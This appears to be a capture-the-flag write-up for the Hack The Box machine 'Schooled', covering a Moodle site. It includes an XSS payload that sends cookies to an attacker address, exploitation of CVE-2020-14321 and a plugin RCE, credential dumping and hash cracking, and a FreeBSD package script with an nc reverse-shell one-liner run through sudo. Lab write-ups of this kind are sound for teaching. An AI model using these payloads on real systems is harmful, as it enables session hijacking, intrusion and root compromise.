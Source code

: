 ```yaml
---
published: true
---
```


<img src="https://i.ibb.co/j3QZnXc/Schooled.png" alt="Schooled" border="0">

<h2>Summary :</h2>

<li>1 - Stealing admin's cookie with XSS</li>
<li>2 - Privilege escalation using a CVE</li>
<li>3 - Getting RCE </li>
<li>4 - Database Enumeration</li>
<li>5 - Password cracking</li>
<li>6 - Creating malicious pkg</li>

					
<h2>Scanning phase :</h2> 

```
Not shown: 998 closed ports  
 PORT  STATE SERVICE VERSION  
 22/tcp open ssh   OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)  
 | ssh-hostkey:   
 |  2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)  
 |  256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)  
 |_ 256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)  
 80/tcp open http  Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)  
 |_http-favicon: Unknown favicon MD5: 460AF0375ECB7C08C3AE0B6E0B82D717  
 | http-methods:   
 |  Supported Methods: GET POST OPTIONS HEAD TRACE  
 |_ Potentially risky methods: TRACE  
 |_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15  
 |_http-title: Schooled - A new kind of educational institute  
 No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```


We found two open ports (22 - 80).

So what should we do here ? 

1 - Searching for an exploit for the running services.<br>
2 - Check the website and see what we can find.

<h2>Enumeration : </h2>

<img src="https://i.ibb.co/27mV3Yj/web.png" alt="web" border="0">

I start checking the application and nothing works, i only found a contact list.

<img src="https://i.ibb.co/dpLJwkX/contact-list.png" alt="contact-list" border="0">

I saw admissions@schooled.htb i was suspicious so i tried to add it as a subdomain "admissions.schooled.htb" but it didn't work.

Now i will try see if there is another subdomain.

```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://schooled.htb/ -H 'Host: FUZZ.schooled.htb'  
     /'___\ /'___\      /'___\      
     /\ \__/ /\ \__/ __ __ /\ \__/      
     \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
     \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
      \ \_\  \ \_\ \ \____/ \ \_\      
      \/_/  \/_/  \/___/  \/_/      
     v1.2.0-git  
 ________________________________________________  
  :: Method      : GET  
  :: URL       : http://schooled.htb/  
  :: Wordlist     : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt  
  :: Header      : Host: FUZZ.schooled.htb  
  :: Follow redirects : false  
  :: Calibration   : false  
  :: Timeout     : 10  
  :: Threads     : 40  
  :: Matcher     : Response status: 200,204,301,302,307,401,403  
 ________________________________________________  
 moodle         [Status: 200, Size: 84, Words: 5, Lines: 2]  
```


<img src="https://c.tenor.com/6xIziN0-uq4AAAAC/boom.gif" alt="boom">

There is our subdomain !

<img src="https://i.ibb.co/12M1hfS/login.png" alt="login" border="0">

Now let's check if we can create an account.

<img src="https://i.ibb.co/4Rx7zrg/Creating-an-account.png" alt="Creating-an-account" border="0">

<img src="https://i.ibb.co/5vqHhYs/account.png" alt="account" border="0">

Creating an account should be in that formula name@student.schooled.htb

<img src="https://i.ibb.co/dDzXFCw/logged-in.png" alt="logged-in" border="0">

After some searching i found this <a href="https://github.com/HoangKien1020/CVE-2020-14321">CVE-2020-14321</a> that is the latest CVE for moodle so it should be for that box 😉

So if you read the CVE you should understood that i should have teacher role to use it.

After a while i found that the only course i can enrol is math course.

<img src="https://i.ibb.co/Gc5wMm9/Math.png" alt="Math" border="0">

I read the announcements and i found this.

<img src="https://i.ibb.co/10C0JM8/hint.png" alt="hint" border="0">

So the teacher interact with the user through moodleNet profile.

The first thing came into my head that i should use xss to steal his cookie, let's try it.

Payload : <img src=x onerror=this.src='http://10.10.x.x:8000/?'+document.cookie;>

<img src="https://i.ibb.co/vzp7m78/xss.png" alt="xss" border="0">

<img src="https://i.ibb.co/1fhZBYL/server.png" alt="server" border="0">

<img src="https://media3.giphy.com/media/l0HlFZ3c4NENSLQRi/200.gif" alt="wow">

<img src="https://i.ibb.co/xCMJcBR/session-hijacking1.png" alt="session-hijacking1" border="0">

Now we are manuel Phillips.

The next thing is enrolling a user, intercept the request, change the role to 1, and ID to our ID. This process will allow us to log in as the user we add. You must pick a user that has a manager role, which in our case is Lianne Carter.

Let's do it ! 

<img src="https://i.ibb.co/NYPwswm/intercept-id.png" alt="intercept-id" border="0">

Now look at the left panel.

<img src="https://i.ibb.co/7KLzTj7/administration.png" alt="administration" border="0">

We have site administration now. 

To get our RCE we have to install a custom plugin but we should edit our role to be able to install plugin.

Go to Users > Define Roles > Manager > Edit to edit our role, intercept the request and change it with the one on github.

<img src="https://i.ibb.co/FW9SZk0/change-role.png" alt="change-role" border="0">

Now we can install plugin.

<img src="https://i.ibb.co/st9NHxc/plugin.png" alt="plugin" border="0">

Just follow <a href="https://github.com/HoangKien1020/Moodle_RCE" >Moodle Rce</a> and trigger the rce at "domain/blocks/rce/lang/en/block_rce.php?cmd=id"

<img src="https://i.ibb.co/dmCmQcB/rce1.png" alt="rce1" border="0">


<h2>Foothold : </h2>

We got our shell !! 

<img src="https://i.ibb.co/swMrynH/shell.png" alt="shell" border="0">

After some enumeration i found database configuration file.

<img src="https://i.ibb.co/DYGB1rL/DB.png" alt="DB" border="0">

When i tried to use mysql the OS didn't find it, so i looked for it in /usr/local/bin and i found it, let's get the creds ! 

<img src="https://i.ibb.co/V2r0wfH/creds.png" alt="creds" border="0">

Now let's crack the hash.

<img src="https://i.ibb.co/ZGpsTWz/crack.png" alt="crack" border="0">

<h2>User Flag : </h2>

Jamies password = !QAZ2wsx

Let's grab our SSH.


<img src="https://i.ibb.co/tm4KHD3/sssh1.png" alt="sssh1" border="0">

Privilege escalation : 

After using sudo -l, we can install pkg with nopasswd.

<img src="https://i.ibb.co/ZWKgMRb/sudo.png" alt="sudo" border="0">

I found this refernce to create a pkg http://lastsummer.de/creating-custom-packages-on-freebsd/ 

Script for getting root :

```
 #!/bin/sh  
 STAGEDIR=/tmp/package  
 rm -rf ${STAGEDIR}  
 mkdir -p ${STAGEDIR}  
 cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF  
 echo “Resetting root shell”  
 rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.x.x 9080 >/tmp/a  
 EOF  
 cat >> ${STAGEDIR}/+POST_INSTALL <<EOF  
 echo “Registering root shell”  
 pw usermod -n root -s /bin/sh  
 EOF  
 cat >> ${STAGEDIR}/+MANIFEST <<EOF  
 name: mypackage  
 version: “1.0_5”  
 origin: sysutils/mypackage  
 comment: “automates stuff”  
 desc: “automates tasks which can also be undone later”  
 maintainer: john@doe.it  
 www: https://doe.it  
 prefix: /  
 EOF  
 pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .  
```

This script will create .txz file.

<img src="https://i.ibb.co/qmNcZwz/txs.png" alt="txs" border="0">

<h2>Root flag : </h2>

1 - Setup a listner on your machine <br>
2 - use this command  "sudo pkg install --no-repo-update *.txz"

<img src="https://i.ibb.co/LpnvwFY/root.png" alt="root" border="0">

<img src="https://c.tenor.com/J4GjjwnXX8QAAAAd/scarface-tony-montana.gif" alt="montana">
